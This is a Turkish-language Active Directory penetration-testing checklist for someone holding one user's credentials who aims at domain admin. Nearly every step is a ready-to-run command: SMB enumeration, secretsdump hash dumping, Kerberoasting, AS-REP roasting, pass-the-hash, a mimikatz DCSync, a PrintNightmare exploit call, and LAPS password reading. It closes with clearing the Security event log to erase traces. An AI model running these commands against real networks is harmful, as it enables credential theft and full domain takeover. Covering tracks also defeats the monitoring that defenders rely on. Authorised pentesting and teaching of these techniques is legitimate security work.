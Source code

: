 # Active Directory Pentest Checklist

Bu belge, bir Active Directory ortamında pentest gerçekleştiren saldırganlar için kapsamlı bir kontrol listesi sunar. Senaryo, elinizde bir kullanıcının kimlik bilgileri (username ve password) olduğunu varsayar. Amaç, Domain Controller (DC) Admin hesabını ele geçirmektir.

---

## 1. Kimlik Bilgileri ile İlk Erişim Sağlama

### 1.1 Kullanıcı Doğrulama
```bash
# Kimlik bilgilerinin doğru olup olmadığını test et
crackmapexec smb <IP> -u <username> -p <password>
```
Açıklama: Kullanıcının bilgilerini SMB üzerinden doğrular. Eğer "[-] STATUS_LOGON_FAILURE" alıyorsanız bilgiler yanlış olabilir.

---

## 2. Kullanıcı Haklarını ve Gruplarını Kontrol Etme

### 2.1 Net Komutu ile Kullanıcı Bilgileri
```bash
# Kullanıcının gruplarını öğren
net user <username> /domain
```
Açıklama: Kullanıcının AD üzerindeki gruplarını listeler. Özellikle "Domain Admins" veya "Enterprise Admins" grubunda olup olmadığını kontrol edin.

### 2.2 BloodHound ile Hakları Analiz Etme
```bash
# BloodHound verilerini toplama
sharpHound.exe -c All -d <domain>
```
Açıklama: BloodHound, kullanıcıların haklarını ve ilişkilerini görselleştirir.

---

## 3. AD Hiyerarşisini ve Domain Bilgilerini Toplama

### 3.1 Domain Bilgilerini Al
```bash
# Domain bilgilerini al
whoami /all
```
Açıklama: Kullanıcının SID bilgisi ve haklarını kontrol eder.

### 3.2 DC Makinalarını Belirleme
```bash
# DC makinalarını bul
nslookup -type=SRV _ldap._tcp.dc._msdcs.<domain>
```
Açıklama: Domain Controller makinelerini listeler.

---

## 4. Dosya Paylaşımlarını Araştırma

### 4.1 SMB Paylaşımlarını Listeleme
```bash
# SMB paylaşımlarını kontrol et
smbclient -L //<IP> -U <username>%<password>
```
Açıklama: Hedef makinadaki paylaşımları listeler. Özellikle "SYSVOL" ve "NETLOGON" paylaşımını inceleyin.

### 4.2 Paylaşımı Mount Etme
```bash
# Paylaşımı mount et
smbclient //<IP>/<share_name> -U <username>%<password>
```
Açıklama: Paylaşılan dizinleri detaylı bir şekilde inceleyin.

---

## 5. Parola Politikalarını ve Hash'leri Toplama

### 5.1 Parola Politikalarını Öğrenme
```bash
# Parola politikalarını öğren
net accounts /domain
```
Açıklama: Parola uzunluğu ve süresi gibi politikaları kontrol eder.

### 5.2 Hash Dumplama
```bash
# Hash dumplama (impacket)
secretsdump.py <domain>/<username>:<password>@<IP>
```
Açıklama: Hedef makinedeki kullanıcıların hash'lerini çeker.

---

## 6. Yetki Yükseltme

### 6.1 Kerberoasting
```bash
# Kerberoasting yap
GetUserSPNs.py -request -dc-ip <DC_IP> <domain>/<username>:<password>
```
Açıklama: SPN kullanıcılarının hash'lerini toplar. Hashcat ile kırmayı deneyin.

### 6.2 ASREPRoasting
```bash
# ASREP roasting
GetNPUsers.py <domain>/<username>:<password> -dc-ip <DC_IP> -request
```
Açıklama: Kerberos pre-authentication disabled kullanıcılarını hedef alır.

### 6.3 Pass-the-Hash
```bash
# Pass-the-Hash saldırısı
pth-winexe -U <domain>/<username>%<NTLM_hash> //<IP> cmd.exe
```
Açıklama: Hash'i kullanarak hedef makineye bağlanır.

---

## 7. Domain Controller Erişimi

### 7.1 DC'deki Verileri Toplama
```bash
# NTDS.dit dosyasını alın
secretsdump.py -just-dc <domain>/<username>:<password>@<DC_IP>
```
Açıklama: DC üzerindeki tüm kullanıcıların hash'lerini elde eder.

### 7.2 DCSync Saldırısı
```bash
# DCSync ile hashleri alın
mimikatz
lsadump::dcsync /domain:<domain> /user:<username>
```
Açıklama: AD üzerindeki kullanıcıların hash'lerini doğrudan elde eder.

---

## 8. Ekstra İstismar Yöntemleri

### 8.1 Print Spooler Zafiyeti
```bash
# Print Spooler exploit
python3 cve-2021-1675.py <username>:<password>@<DC_IP>
```
Açıklama: PrintNightmare zafiyetini kullanarak DC'ye erişim sağlar.

### 8.2 LAPS Bilgilerini Okuma
```bash
# LAPS şifrelerini alın
lapspass.py <username>:<password>@<DC_IP>
```
Açıklama: LAPS tarafından korunan şifreleri elde eder.

---

## 9. İzleri Temizleme

### 9.1 Logları Temizleme
```bash
# Log temizleme (PowerShell)
Clear-EventLog -LogName Security
```
Açıklama: Hedef makinedeki logları temizler.

---

Bu liste düzenli olarak güncellenmeli ve kullanılan araçların dokümantasyonları okunmalıdır. Başarılar!
